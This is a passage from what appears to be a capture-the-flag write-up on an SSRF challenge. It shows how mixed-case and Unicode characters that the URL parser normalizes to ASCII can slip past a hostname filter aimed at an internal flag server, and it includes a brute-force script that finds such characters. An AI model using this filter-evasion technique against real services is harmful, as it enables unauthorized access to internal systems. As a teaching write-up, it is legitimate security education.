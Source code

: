 So far, we can do this and our URL parser is happy with it:

HTtP:the.c0o0o0l-fl444g.server.internal

```
> new URL('HTtP:the.c0o0o0l-fl444g.server.internal')
URL {
  href: 'http://the.c0o0o0l-fl444g.server.internal/',
  origin: 'http://the.c0o0o0l-fl444g.server.internal',
  protocol: 'http:',
  username: '',
  password: '',
  host: 'the.c0o0o0l-fl444g.server.internal',
  hostname: 'the.c0o0o0l-fl444g.server.internal',
  port: '',
  pathname: '/',
  search: '',
  searchParams: URLSearchParams {},
  hash: ''
}
>
```


We then run into the 't' right after the colon and we've already used both lowercase t and uppercase T.

We were stuck at this point for a long while.


## Unicode Normalization to the Rescue

Clearly the URL's internal parser is doing some normalization.  We feed it both upper 'T' and lowercase 't' and they both come out parsed as lowercase 't'.

That made us wonder if there might be other Unicode characters that, for whatever reason, also get normalized into lowercase 't'.

We wrote this **ssrfrog.js** javascript code to hunt for them:

```
function findVariants(targetChar) {
    let targetHost = 'fake' + targetChar + '.com';
    for (i = 32; i <= 65535; i++) {
        let candidateChar = String.fromCharCode(i);
        let input = 'http://fake' + candidateChar + '.com';
        try {
            let url = new URL(input);
            if (url.hostname === targetHost) {
                console.log(targetChar, ':', i, candidateChar);
            }
        }
        catch(e) {
        }
    }
}

let domain = 'the.c0o0o0l-fl444g.server.internal';
let domainSet = new Set(domain);
for (c of domainSet) {
    findVariants(c)
}
```
